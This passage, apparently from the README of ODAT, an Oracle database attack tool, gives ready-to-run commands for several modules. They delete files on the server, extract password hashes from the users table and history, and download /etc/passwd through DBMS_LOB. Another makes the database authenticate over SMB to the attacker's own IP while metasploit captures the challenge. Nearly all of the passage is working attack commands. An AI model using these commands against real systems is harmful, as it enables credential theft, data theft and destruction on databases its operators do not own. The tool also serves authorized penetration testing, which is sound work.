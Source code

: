 * To delete the *file.txt* file stored in */tmp/*:
```bash
./odat.py utlfile -s $SERVER -d $SID -U $USER -P $PASSWORD --removeFile /tmp/ file.txt
```

 *passwordstealer* module
---

This module has been created in order to get hashed password quicly and to pickup hashed passwords from the history.

* To get hashed passwords from the history:
```bash
./odat.py passwordstealer -s $SERVER -d $SID -U $USER -P $PASSWORD --get-passwords-from-history
```

* To get hashed passwords from the users table:
```bash
./odat.py passwordstealer -s $SERVER -d $SID -U $USER -P $PASSWORD --get-passwords
```

 *dbmslob* module
---

This module uses the DBMS_LOB Oracle library to download files remotely.

* To download the passwd file stored in */etc/* to the tmp.txt local file:
```bash
./odat.py dbmslob -s $SERVER -d $SID -U $USER -P $PASSWORD --getFile /etc/ passwd temp.txt
```

 *smb* module
---

This module allows to capture a SMB authentication.

Prerequisite in order to capture a challenge: 
* Oracle Database must be installed on __Windows__
* Oracle Database services must __not__ used a Windows __network service__ account, a __system__ account or a __local service__ account.

Notice: To use this module, a tool to capture SMB authentication must be used (examples: metasploit or responder).

* In this example, I have used the *auxiliary/server/capture/smb* metasploit module to capture the SMB authentication:
```bash
msfconsole
[...]
msf auxiliary(smb) > use auxiliary/server/capture/smb
msf auxiliary(smb) > run
```

* To make connect the Oracle Database server to our smb server, the following ODAT command can be used :
```bash
./odat.py smb -s $SERVER -d $SID -U $USER -P $PASSWORD --capture $MY-IP-ADDRESS SHARE-NAME
```
